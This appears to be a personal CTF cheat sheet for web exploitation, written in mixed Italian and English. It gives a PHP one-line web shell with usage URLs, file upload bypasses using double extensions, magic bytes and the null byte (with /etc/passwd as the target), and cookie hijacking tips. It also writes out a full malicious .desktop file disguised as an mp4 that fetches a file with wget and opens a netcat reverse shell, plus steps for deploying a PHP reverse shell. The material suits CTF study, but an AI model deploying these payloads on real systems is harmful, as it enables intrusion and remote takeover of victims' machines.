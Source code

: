 ## WEB
- `curl sito | grep flag` provarlo sempre, potrebbe funzionare...
- Se non trovi la risposta e hai delle richieste HTTP prova a **cambiare** il *metodo*
- Se il **check** è via **js** scarica tutta la pagina e la modifichi in locale come vuoi ( *se non riesci a modificarla live sul broser* )
- **Se non trovi la risposta fai generare errori a php**, tipicamente inviando array vuoti: `input=[]` o trasformando in array vuoti: `input[]=`
- Controlla se il confronto è fatto con `==` o `===` in tal caso prova a traformare in un altro tipo ad esempio un array...
- **`.DS_Store`**: is a common file in some websites, I think only in Apache servers, it is connected with MAC and Storage
- python [`requests`](https://requests.readthedocs.io/en/latest/user/quickstart/) module
  - `page = requests.get('url', params={'getParam': 'val'})`
  - `page = requests.get(url, headers={'user-agent': 'my-app/0.0.1'})`
  - `page = requests.post('http://web-08.challs.olicyber.it/login', data={"username": "admin","password": "admin"})`
  - ```python
    data = {
    "username": "panino12345678",
    "password": "panino12345678",
    "invite": code
    }

    page = requests.post(url, json=data)
    ```
- [`beautifulSoup`](https://www.crummy.com/software/BeautifulSoup/bs4/doc/)

  **Gli attributi degli elementi si accedono tramite array associativi: `soup.img['src']`**

  ```python
  import requests as req
  from bs4 import BeautifulSoup
   
  page = req.get('http://captcha.challs.olicyber.it/')
   
  soup = BeautifulSoup(page.text, 'html.parser')
  ```
- **Change directory**: if there is a filter for `../` try `.../` or something similar
- **Insecure direct object reference (IDOR) vulnerability** arises when attackers can access or modify objects by manipulating identifiers used in a web application's URLs or parameters. It occurs due to missing access control checks, which fail to verify whether a user should be allowed to access specific data. (`http://notes.challs.olicyber.it/account/account_number_that_you_want`)

- **`.htaccess`**: is a common file in a lots of websites, I think only in Apache servers
- **File upload possibile**:

  Try to upload the file (with the extensions) that you want:
  - `yoyo.png.php`
  - **Magic Bytes**: search the [specific magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for the file requests, convert and **save** them in a file with [CyberChef](https://cyberchef.org/) (*from hex*). *Remember to save them in a file creating and saving a new file with cyberchef option*
  - **[Null Byte Injection](https://youtu.be/jBtzFGwHvxE)**: a technique for sending data that would be filtered otherwise. It relies on injecting the null byte characters (`%00`, `\x00`) in the supplied data. Its role is to terminate a string*

  Una volta caricato il file che vuoi puoi provare una [*reverse-shell*](#reverse-shell) or a simple *single command executer* (a small php cmd payload): ```<?=`$_GET[0]`?>```, in order to use it: `www.pippo.it/yo.php?0=command` for example: *http://atlas.picoctf.net:57784/uploads/yoyo.png.php?0=cat ../MFRDAZLDMUYDG.txt*. You can use spaces, dot...
  
  ###### Example 1
  1. An attacker wants to retrieve the file `/etc/passwd` but an extension `.php` is appended automatically such as `/etc/passwd.php`.
  2. The attacker uses the null byte to terminate the string and throw away the `.php` extension: `/etc/passwd%00`
   
  ###### Example 2
   1. An attacker wants to upload a `malicious.php`, but the only extension allowed is `.pdf`.
   2. The attacker constructs the file name such as `malicious.php%00.pdf` and uploads the file.
   3. The application reads the `.pdf` extension, validate the upload, and later throws the end of the string due to the null byte.
   4. The file `malicious.php` is then put in the server.

  ###### [Example 3](https://brandon-t-elliott.github.io/trickster)

- **Redirect Links**
Add `+` at the end of the URL to see the site where the redirect links will bring you: `https://tinyurl.com/bw7t8p4u+`

- **`robots.txt`**
Sometimes the websites contain a robots.txt file, it can be usefull for example for the SEO, in particular we could don't want to indexing our web sites.

- **Cookie**
    There are different options:
    - **sniffing** the traffic, so the cookies --> session hijacking if it is the cookie session
    - **session cookie** is in base64, sometimes you can **decode** the cookie and **change** the **user** and sometimes you can copy and paste (session hijacking) or if you don't know what to do brute force or value prediction
    - same hostname shares same cookies

- Prova sempre a loggarti come **admin**

- Cambiare `IP` di provenienza: è un *header*, tipicamente `X-Forwarded-For` o `Forwarded`

### Comandi e strumenti
- Gobuster
- [nikto](#nikto)
- [rustscan](#rustscan)
- [smbclient](#smbclient)
- [wapiti](https://wapiti-scanner.github.io/) *a web scanner*

Modificare ed effettuare richieste particolari:
- postman
- Requests *python library* (file `web.py`)
- burp suite

### Reverse shell with an mp4 file (only in linux mint?)
> whatch [this](https://youtu.be/ZlfloTpLGT0?list=PL0fOAKA0mBdspB0x8BhMegc0ZoEwQpq32) video or read [this](https://null-byte.wonderhowto.com/how-to/pop-reverse-shell-with-video-file-by-exploiting-popular-linux-file-managers-0196078/) article

1. Create a file named `name.desktop`
2. write in there these lines:
   ```
        [Desktop Entry]
        Encoding=UTF-8
        Name=fake_video.mp4
        Exec=/usr/bin/wget 'http://192.168.1.XX/real_video.mp4' -O /tmp/real_video.mp4; /usr/bin/xdg-open /tmp/real_video.mp4; /usr/bin/mkfifo /tmp/f; /bin/nc 192.168.1.XX 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1 &
        Terminal=false
        Type=Application
        Icon=video-x-generic
   ```
3. change the first ip addr with **your local server** ip addr
4. change the second ip addr with **your local server** ip addr

### Reverse shell php
1. Download the file [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

2. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to [ilmioip](https://www.mio-ip.it/) in the browser of your device). 

3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 1234`

4. Search the page to load and execute your payload

> As you can see you will open a local server on your computer on port 1234, from here, using ncat you will interact with the target host shell

> Per mettere online il server locale ci si può appoggiare ad ngrok
